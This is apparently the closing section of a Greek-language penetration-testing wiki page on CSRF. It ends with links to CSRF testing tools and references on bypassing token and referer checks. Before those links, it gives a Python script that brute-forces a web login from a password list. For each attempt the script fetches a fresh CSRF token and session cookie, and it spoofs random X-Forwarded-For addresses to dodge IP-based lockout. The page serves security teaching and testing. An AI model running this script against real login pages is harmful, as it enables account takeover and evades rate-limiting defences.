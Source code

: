 ```python
csrf, cookie = init_session()
cookies = {SESSION_COOKIE_NAME: cookie}
data = {
"tokenCSRF": csrf,
"username": user,
"password": password,
"save": ""
}
headers = {
"X-Forwarded-For": f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
}
r = requests.post(URL, data=data, cookies=cookies, headers=headers, proxies=PROXY)
if "Username or password incorrect" in r.text:
return False
else:
print(f"FOUND {user} : {password}")
return True

with open(PASS_LIST, "r") as f:
for line in f:
login(USER, line.strip())
```
## Εργαλεία <a href="#tools" id="tools"></a>

* [https://github.com/0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe)
* [https://github.com/merttasci/csrf-poc-generator](https://github.com/merttasci/csrf-poc-generator)

## Αναφορές

* [https://portswigger.net/web-security/csrf](https://portswigger.net/web-security/csrf)
* [https://portswigger.net/web-security/csrf/bypassing-token-validation](https://portswigger.net/web-security/csrf/bypassing-token-validation)
* [https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses)
* [https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html](https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html)

​

<figure><img src="/.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
